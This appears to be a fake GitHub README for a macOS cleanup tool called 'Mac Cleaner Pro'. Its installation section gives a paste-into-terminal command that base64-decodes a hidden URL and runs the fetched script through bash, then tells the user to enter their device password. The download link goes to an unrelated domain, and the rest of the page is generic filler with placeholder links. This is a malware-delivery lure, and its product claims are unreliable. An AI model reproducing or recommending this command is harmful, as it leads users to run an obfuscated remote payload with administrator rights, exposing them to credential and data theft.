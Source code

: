 # Mac Cleaner Pro - Optimize Your macOS Experience

![img](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQThZJBt33I6NlW7wPi6vq_m7SW9NlB3DLAzw&s)

Mac Cleaner is a lightweight and powerful tool designed to keep your Mac running smoothly. It helps you free up disk space, remove unnecessary files, and optimize system performance with an intuitive interface.

---

## ✨ Features

- **Junk File Cleanup**: Safely remove cache, logs, and temporary files.
- **Duplicate Finder**: Locate and delete duplicate files to save space.
- **App Uninstaller**: Completely remove apps and their associated files.
- **Disk Analyzer**: Visualize disk usage to identify large files.
- **Privacy Protection**: Clear browsing data and protect your privacy.
- **Fast & Secure**: Optimized for macOS with minimal resource usage.

---

## 📥 Download

Get the latest version of Mac Cleaner for macOS:

[![Download Mac Cleaner](https://img.shields.io/badge/Download-Mac%20Cleaner-brightgreen?style=for-the-badge&logo=apple)](https://resmanio.com/get.php?call=imb)

*Requires macOS 10.15 or later.*

---

## 🚀 Installation

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9pbWIvaW5zdGFsbC5zaA== | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🛠️ Usage

1. **Scan Your Mac**: Open Mac Cleaner and click "Scan" to analyze your system.
2. **Review Results**: View detailed reports on junk files, duplicates, and more.
3. **Clean Up**: Select items to remove and click "Clean" to free up space.
4. **Customize Settings**: Adjust preferences for scheduled scans or specific file types.

Check the [User Guide](https://github.com/username/MacCleaner/wiki/User-Guide) for detailed instructions and tips!

---

## ⚙️ Configuration

- Open Mac Cleaner and navigate to **Preferences** from the menu bar.
- Customize scan settings, file types, or schedule automatic cleanups.
- Enable privacy features to manage cookies and browsing data.

---

## 🌟 Why Mac Cleaner?

- **User-Friendly**: Simple interface for beginners and advanced users.
- **Free & Open Source**: No hidden costs, built for the community.
- **Regular Updates**: Stay optimized with frequent improvements.

---

## 🤝 Contributing

We welcome contributions! To get started:

1. Fork the repository.
2. Check out the [Contributing Guide](CONTRIBUTING.md) for setup instructions.
3. Submit a pull request with your changes.

Report issues or suggest features via the [Issues](https://github.com/username/MacCleaner/issues) tab.

---

## 📜 License

Mac Cleaner is licensed under the [MIT License](LICENSE).

---

## 🙌 Acknowledgments

- Inspired by tools like CCleaner and CleanMyMac.
- Thanks to all contributors and the macOS community!

---

*Have questions? Reach out via [Issues](https://github.com/username/MacCleaner/issues) or join our [Discussions](https://github.com/username/MacCleaner/discussions)!*
